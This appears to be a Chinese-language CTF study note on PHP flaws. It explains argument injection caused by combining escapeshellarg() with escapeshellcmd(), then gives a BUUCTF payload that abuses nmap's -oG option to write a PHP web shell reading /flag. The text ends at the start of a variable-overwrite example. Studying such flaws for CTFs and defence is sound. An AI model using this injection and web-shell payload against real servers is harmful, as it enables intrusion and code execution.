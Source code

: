 结果：
```
string(2) "ls"
string(4) "ls\;"
string(8) "\'\;ls\;"
```


### 对于 arg + cmd 的参数注入

测试：
```php
<?php  
	$str1 = "zj' -l ";
	system(escapeshellcmd("ls --ignore=".escapeshellarg($str1)." /tmp"));  
	echo escapeshellcmd("ls --ignore=".escapeshellarg($str1)." /tmp");  
?>
```
- ignore 参数需要 linux 环境

结果：
![](../../../../../img/Pasted%20image%2020241008025618.png)
- `ls --ignore='zj'\\'' -l \' /tmp` 可化简 `ls --ignore=zj\ -l ' /tmp`

当用户输入包含单引号时，先用 escapeshellarg() 处理会给该单引号添加转义符，再用 escapeshellcmd() 处理时会将该添加的转义符再添加一个转义符，从而导致注入内容可以从==shellarg的单引号中逃逸掉==，造成后续可以进一步利用的参数注入漏洞。
- 如果是先用escapeshellcmd()函数过滤，再用escapeshellarg()函数过滤，则不存在参数注入漏洞



#### 实战： BUUCTF 2018---Online Tool

```php
<?php
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
?>
```

payload：
```
?host=2.2.2.2'<?php echo `cat /flag`;?> -oG test.php'
```
- -oG 是 nmap 的参数，表示写入前一个参数的内容到后一个参数所指明的文件中

---
## 变量覆盖

#### 例题

```php
<?php

include 'flag.php';
$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

```